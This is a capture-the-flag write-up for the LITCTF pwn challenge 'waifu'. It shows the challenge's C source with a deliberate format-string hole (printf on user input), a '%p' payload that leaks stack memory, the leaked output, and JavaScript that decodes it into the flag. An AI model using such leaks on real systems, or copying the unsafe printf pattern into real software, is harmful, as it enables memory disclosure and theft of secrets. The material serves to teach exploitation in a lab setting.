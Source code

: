 # pwn/waifu

## Challenge

Honestly I just needed a name, I am almost out of time :skull:.
<br>
Connect with `nc litctf.live 31791`

[`waifu.zip`](https://drive.google.com/file/d/1SVW7rWSdpu3cPYDyATw5a9pJJMH0umTS/view)

## Solution

Ooooo, we're given a C file (and an executable):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(){
	setbuf(stdout, 0x0);

	FILE *f = fopen("flag.txt", "r");
	if(f == NULL){
		puts("Something is wrong. Please contact Rythm.");
		exit(1);
	}	

	char *buf = malloc(0x20);
	char *flag = alloca(0x1000);
	fgets(flag, 0x1000, f);

	puts("Do you like waifus?");

	scanf("%20s", buf);
	puts("");

	if(!strcmp(buf, "yes")){
		puts("Good.");
	}else{
		puts("Wtmoo how could you say:");
		printf(buf);
		puts("");
	}

	free(buf);

	return 0;
}
```
Because `scanf` (instead of `gets`) is used with a maximum number of characters read (20), this isn't a buffer overflow exploit like before, but it's still another classic problem.

The only output is the `printf`. Note the usage of `printf` over `puts`; `printf`'s first argument can contain format specifiers, which are filled in by the following arguments. But that means we can input format specifiers, but since there are no following arguments, they'll instead be filled in by the contents of the stack, including the flag.

Note the program will only read in 20 characters. To maximize data extracted, we use the format specifier `%p`, a 64-bit pointer address (instead of, say, `%x`, a 32-bit hex integer; to specify longer as in `%xl` uses up characters):
```py
print("%p"*10)
```
We get
```
0x7f5ea9d9b723(nil)0x7f5ea9cbc0770x190x7c0x667b46544354494c0x747833745f6d30720x755f68732e3772340x61616161616161770x7d61616161616161
```
(An null pointer (address 0) is printed as `(nil)`.) Conveniently, there are `0x`s delimiting each value. As these are little-endian, we reverse the bytes in each to get the character string:
```js
"..."
	.replaceAll("(nil)","0x0")
	.split("0x").slice(1) // get array of "addresses"
	.map(
		s=>s.padStart(16,"0").match(/../g).reverse().map( // reverse bytes (pairs of hex digits)
			c=>String.fromCharCode(parseInt(c,0x10)) // to ASCII
		).join("")
	).join("");
// "#·Ù©^\u007f\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000wÀË©^\u007f\u0000\u0000\u0019\u0000\u0000\u0000\u0000\u0000\u0000\u0000|\u0000\u0000\u0000\u0000\u0000\u0000\u0000LITCTF{fr0m_t3xt4r7.sh_uwaaaaaaaaaaaaaa}"
```
A bunch of junk, and then our flag!

## Flag

`LITCTF{fr0m_t3xt4r7.sh_uwaaaaaaaaaaaaaa}`
